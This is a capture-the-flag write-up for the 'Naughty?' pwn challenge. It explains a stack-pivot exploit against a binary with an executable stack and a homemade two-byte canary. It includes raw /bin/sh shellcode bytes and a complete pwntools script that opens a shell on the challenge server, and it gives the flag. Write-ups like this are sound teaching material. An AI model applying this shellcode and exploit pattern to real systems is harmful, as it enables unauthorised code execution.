 Naughty?
========

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
You haven't been naughty, have you?
```

Process
-------

I started off as I normally do, by running `checksec` on the `./chall` binary:

![checksec](checksec.png)

Cool, no stack canary, an executable stack, and no address randomization within the program itself. 

Next, I threw the executable into BinaryNinja and went straight for the `main()` function:

![main](main_func.png)

From the looks of it, it seems that we have to 'Tell Santa' what we want for XMAS, then there is an `fgets()` call reading a maximum of `0x47` (71) bytes from `stdin` into `var_38`. 

As displayed in the variable listing at the top, `var_38` starts at offset `-0x38` on the stack, while the next variable listed is `var_a` at offset `-0xa`. This is a bit strange because looking at the decompilation of `main()`, `var_a` does not seem to be refereneced anywhere. 

To get a better idea of what was happening, I switched to just the Disassembly Graph view:

![main_graph](disassembly_main_graph.png)

From this view, it seemed as if the challenge, while having none enforced by the compiler, implemented its own sort of stack canary by checking the two bytes before the base pointer `rbp` and comparing them to a previously set value, `0xe4ff`. 

This doesn't really seem to be an issue for exploitation though since we know exactly what we need to set those bytes to for the program to not automatically fail. 

At this point, it seems like we can imagine a payload consisting of `0x38 - 0xa = 0x2e` (46) filler bytes, little endian `0xe4ff`, 8 filler bytes to overwrite `rbp`, and then the code we want to run. 

However, we can only input `0x47` bytes via the `fgets()` call. This leaves us with `0x47 - 0x38 = 0xf` (15) bytes of code. Constructing a `/bin/sh` return oriented programming (ROP) chain or even shellcode would be extremely difficult or impossible in just 15 bytes. 

If only there were a way to put the shellcode in `var_38` and have a small (< 15 bytes) ROP chain to jump back to `var_38` to execute...

As it turns out, this is completely doable and even has a name. This method is commonly referred to as a 'stack pivot'. 

After [reading up on stack pivoting](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/#stack-pivoting), I began to write some exploit code using [pwntools](https://github.com/Gallopsled/pwntools):

```python
from pwn import *

shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

payload = shellcode + b'A'*(0x2e-len(shellcode)) + b'\xff\xe4BBBBBBBB'
```

Here, I am just inserting some `/bin/sh` [shellcode](https://www.exploit-db.com/exploits/42179), filling up `var_38` with a bunch of 'A' characters, setting `var_a` to `0xe4ff`, and inserting 8 'B's to overwrite the `rbp`. 

This payload will not work in its current state as we need to insert a ROP chain at the end to jump back to the beginning of `var_38`. 

As [the article linked earlier](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/#stack-pivoting) states, the first order of business is to find a `jmp esp/rsp` instruction in the program. Using `ROPGadget`, one can obtain an address to use for the first step of the ROP chain:

![jmp_rsp](get_jmp_ret_addr.png)

Here I will use address of `jmp rsp`: `0x40067f` as the next piece of the payload.

At this point, the length of our payload is: `0x2e + 0xa + 0x8 = 0x40` (64) bytes. The final step would be to subtract `0x40` from the stack pointer, `rsp`, setting it to the address of `var_38`, then jumping to the new `rsp`.

So, the final piece of the payload is going to be the following instructions, assembled: 

```assembly
sub rsp, 0x40
jmp rsp
```

After combining everything above, the payload should look something like this:

```
___________________________________________________________
|  /bin/sh shellcode  |  filler 'A's  |  0xe4ff 'canary'  |  
-----------------------------------------------------------
|  filler rbp  | 'jmp rsp' addr  |  sub/jmp rsp shellcode |
----------------------------------------------------------- 
```

We can now modify the previous [pwntools](https://github.com/Gallopsled/pwntools) script to send the full payload, jumping to the shellcode and getting a shell on the remote machine:

```python
from pwn import *

first_output = 'Tell Santa what you want for XMAS\n'
# /bin/sh shellcode
shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

p = remote('challs.xmas.htsp.ro',2000)
binary = ELF('./chall')
context.binary = binary # for asm()
p.recvuntil(first_output) # wait for input prompt

sub_esp_jmp = asm('sub rsp, 0x40;jmp rsp') # assemble jmp var_38 shellcode
jmp_rsp = 0x40067f # address of 'jmp rsp' from ROPGadget

payload = shellcode +  b'A'*(0x2e-len(shellcode)) + b'\xff\xe4BBBBBBBB' + p64(jmp_rsp) + sub_esp_jmp

p.sendline(payload) # send payload
p.interactive() # allow user to execute remote commands
```

Running the above script, we get a shell where the flag is quickly found at `/home/ctf/flag.txt`:

![flag](flag.png)

Flag: `X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}`